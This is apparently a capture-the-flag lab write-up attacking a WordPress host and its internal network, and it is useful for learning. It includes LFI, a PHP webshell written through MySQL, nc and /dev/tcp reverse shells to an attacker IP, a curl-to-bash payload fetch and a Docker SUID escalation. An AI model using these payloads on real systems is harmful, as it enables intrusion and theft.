 # Initial Recon
Scope of engagment 10.200.110.0/24 and 192.168.100.0/24
## Nmap
Enumerating public facing IP's
See which IP's are up:
```bash
nmap -n 10.200.110.0/24
```
10.200.110.33 and 10.200.110.250
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-11 05:44 EDT
Nmap scan report for 10.200.110.33
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 10.200.110.250
Host is up (0.28s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (2 hosts up) scanned in 119.11 seconds
```
Saved as External-network-scan.nmap

Run scan on 10.200.110.33
```bash
nmap -sC -sV 10.200.110.33
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-11 06:18 EDT
Nmap scan report for 10.200.110.33
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:c0:f1:4d:49:de:5e:ec:14:51:dc:c5:75:18:aa:94 (RSA)
|   256 53:bb:46:12:93:e1:ab:09:90:a5:ef:54:87:e8:40:44 (ECDSA)
|_  256 9f:94:30:aa:76:42:10:0c:c2:0a:ae:a6:a1:48:00:91 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 21 disallowed entries (15 shown)
| /var/www/wordpress/index.php 
| /var/www/wordpress/readme.html /var/www/wordpress/wp-activate.php 
| /var/www/wordpress/wp-blog-header.php /var/www/wordpress/wp-config.php 
| /var/www/wordpress/wp-content /var/www/wordpress/wp-includes 
| /var/www/wordpress/wp-load.php /var/www/wordpress/wp-mail.php 
| /var/www/wordpress/wp-signup.php /var/www/wordpress/xmlrpc.php 
| /var/www/wordpress/license.txt /var/www/wordpress/upgrade 
|_/var/www/wordpress/wp-admin /var/www/wordpress/wp-comments-post.php
|_http-title: holo.live
|_http-generator: WordPress 5.5.3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2 ports open.

## Port 80 enumeration
CME is wordpress running version 5.5.3
Title of the page is holo.live
The page pulls images from www.holo.live
Scan for more subdomains.
```bash
ffuf -u http://10.200.110.33 -H "Host: FUZZ.holo.live" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fl 157
```
3 domains:
- www
- dev
- admin
Running dir busting on all three sub domains.
www:
Nothing intresting just a wordpress install

dev:
admin.php, img.php, login.php

admin:
robots.txt
	/var/www/admin/supersecretdir/creds.txt
	the page gives a 403 error but is still there.

# Port 80 Exploitation
On the dev domain there is the img.php which can load in a file.
Checking for LFI.
```bash
curl http://dev.holo.live/img.php?file=../../../../../../../../etc/passwd
```
This returns the file.
Which means you can read out the creds.txt
```txt
I know you forget things, so I'm leaving this note for you:
admin:DBManagerLogin!
- gurag <3
```
Logging into the admin subdomain there is a dashboard.php.
Use the LFI to get the source code.
Quick grep for a parameter to check for RCE
```bash
cat dashboard.php | grep GET
```
This reveals a cmd variable.
which gives RCE.
try a reverse shell with the payload
```bash
nc -e /bin/bash 10.50.107.132 9001
```
This gives a shell on the box.
Stabilise the shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

User flag:
```
HOLO{175d7322f8fc53392a417ccde356c3fe}
```
# Foothold on 10.200.110.33
First thoughts are the computer name is random and it is linux. Docker? yep
find the groups on the docker instance.
```bash
cat /proc/1/cgroup
```
output:
```txt
12:blkio:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
11:devices:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
10:memory:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
9:cpuset:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
8:perf_event:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
7:cpu,cpuacct:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
6:hugetlb:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
5:pids:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
4:rdma:/
3:freezer:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
2:net_cls,net_prio:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
1:name=systemd:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
0::/system.slice/containerd.service
```

Check network config and do a ping sweep on the gatway
```bash
ifconfig
nc -zv 192.168.100.1 1-65535
```
Output:
```txt
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 33060 (?) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 8080 (http-alt) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 3306 (mysql) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 80 (http) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 22 (ssh) open
```
port 8080 seems to be a second website.
3306 is a sql database.

Check for the db_connect.php file in the webserver on the docker container.
read the file.
```txt
define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');
```
connect to the database.
```bash
mysql -u admin -p -h 192.168.100.1
```

Internal sql credentials:
admin:DBManagerLogin!
gurag:AAAA

inject a revshell into the sql database to break out of the docker container
```sql
mysql> select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```
```bash
curl 192.168.100.1:8080/shell.php?cmd=id
```

now to get a reverse shell on the box.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.50.107.132/9002 0>&1
```
host it an set up a listener then url enconde and pass as the cmd parameter of the webshell.
```bash
curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.107.132%3A80%2Fshell.sh%7Cbash%20%26'
```
Now a shell on 10.200.110.33
```txt
HOLO{3792d7d80c4dcabb8a533afddf06f666}
```

Priv esc.
check for SUID bit
```
find / -perm -u=s -type f 2>/dev/null
```
docker has a SUID priv esc.
```
sudo install -m =xs $(which docker) .

./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
